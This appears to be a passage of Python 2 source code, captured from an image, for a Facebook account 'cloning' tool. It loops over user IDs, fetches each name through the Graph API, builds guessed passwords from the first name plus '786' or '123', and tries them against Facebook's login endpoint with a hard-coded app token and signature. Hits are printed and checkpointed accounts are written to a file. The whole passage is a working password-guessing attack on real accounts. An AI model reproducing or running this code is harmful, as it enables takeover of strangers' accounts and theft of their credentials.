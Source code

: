 			super()
	elif peak =="0":
		menu()
	else:
		print "\033[1;97mFill in correctly"
		pilih_super()

	
	print "\033[1;36;40m[✺] Total IDs : \033[1;97m"+str(len(id))
	jalan('\033[1;34;40m[✺] Please Wait...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;32;40m[✺] Cloning\033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;97m        ❈     \033[1;97mTo Stop Process Press CTRL+Z \033[1;97m    ❈"
	print "   \033[1;31;48m●💋══════════════════◄►══════════════════💋●"

	jalan('                    \033[1;97mMr Af2 start cloning Wait...')
	print  "  \033[1;36;48m ●💋══════════════════◄►══════════════════💋●" 

	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass 
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name'] + '786'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass1 + ' 👽 ' + b['name']
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass1 + ' 👽 ' + b['name']
					cek = open("out/CP.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name'] + '123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass2 + ' 👽 ' + b['name']
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass2 + ' 👽 ' + b['name']
							cek = open("out/CP.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else: